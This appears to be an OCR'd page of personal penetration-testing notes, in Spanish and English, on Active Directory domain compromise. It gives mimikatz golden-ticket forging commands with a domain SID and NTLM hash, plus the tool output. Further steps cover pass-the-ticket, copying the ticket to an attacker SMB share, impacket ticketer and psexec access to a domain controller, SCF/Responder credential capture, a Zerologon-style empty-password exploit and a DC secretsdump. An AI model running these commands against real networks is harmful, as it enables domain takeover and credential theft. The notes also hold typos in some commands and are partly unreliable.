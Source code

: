 23 a3b751d43258a5eedf8877dba4c3da72
24 b4d758ce5bb215fd465fb816418258ce
25 b4d758ce5bb215fd465fb816418258ce
26 49bea3d09401d5fe5d48636686fdd4f5
27 c68db1a0e675f8673c991722800a404e
28 864f55ef3951454fe6e3c010247d9358
29 9bd88c3fb05c84cca139d18bad8588a9

* [x] --> kerberos::golden /domain:svcorp.com /sid:S-1-5-21-466546139-763938477-1796994327-1124 /rc4:22ec2cc749ad47431602a8d2ba0954e9 /id:500 /user:Administrator /ticket:golden.kirbi

User : TrustMeImanAdmin
Domain : svcorp.com (SVCORP)
SID : S-1-5-21-466546139-763938477-1796994327-1124
User Id : 500
Groups Id : \*513 512 520 518 519
ServiceKey: 22ec2cc749ad47431602a8d2ba0954e9 - rc4\_hmac\_nt
Lifetime : 8/16/2022 7:52:55 PM ; 8/13/2032 7:52:55 PM ; 8/13/2032 7:52:55 PM
-> Ticket : ticket.kirbi

\* PAC generated
\* PAC signed
\* EncTicketPart generated
\* EncTicketPart encrypted
\* KrbCred generated

Final Ticket Saved to file !

* [x] --> mimikatz # kerberos::ptt ticket.kirbi

\* File: 'ticket.kirbi': OK

* [x] mimikatz # misc::cmd
* [x] pushd \\\domain\\c$

#####Fin Golden Ticket

decargar archivo golden.kirbi y mimikatz a otra maquina windows.
impacket-smbserver a /tmp/ -smb2support
copy golden.kirbi \\ipatacante\\a\\

hacer PTH pass the tocket dentro de la maquina windows
mediante mimikatz
kerberos::prr golden.kirbi
dir \\ip-DC\\C$

Para conectar al DC
hacer uso de los datos identificados con mimikarz
impacket-ticketer -nthash 22ec2cc749ad47431602a8d2ba0954e9 -domain-sid S-1-5-21-466546139-763938477-1796994327-502 -domain marvel.local Administrator
export KRB5CCNAME="/home/kandalf/Administrator.ccache"
impacket-psexec -n -k marvel.local/administrator@192.168.50.103 cmd.exe \<ahora se hace sin contraseña por que se esta cargando desde una variable>

NOTA : FILE SCF para capturar credenciales y subir responder

<br>
Verificar Null Session, si es suscced se puede hacer ataque de 

python3 set\_empty\_pw.py DC01 192.168.194.165
secretsdump -just-dc nombremaquin/dominio\\$@ip